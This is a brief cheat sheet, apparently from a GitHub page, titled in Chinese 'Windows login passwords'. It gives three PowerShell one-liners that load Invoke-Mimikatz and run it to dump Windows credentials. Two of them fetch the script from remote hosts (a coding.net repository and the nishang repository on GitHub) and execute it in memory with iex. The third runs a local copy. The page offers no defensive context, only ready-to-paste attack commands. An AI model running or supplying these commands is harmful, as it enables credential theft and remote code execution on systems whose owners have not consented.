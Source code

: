 ### Windows登陆密码
> Invoke-Mimikatz: `iex (New-Object Net.WebClient).DownloadString('https://qcloud.coding.net/u/xiaokaixuan/p/scripts/git/raw/master/powershell/Invoke-Mimikatz.ps1');Invoke-Mimikatz`

> Invoke-Mimikatz: `iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz`

> Invoke-Mimikatz: `iex ((Get-Content .\Invoke-Mimikatz.ps1) -Join "`n"); Invoke-Mimikatz`
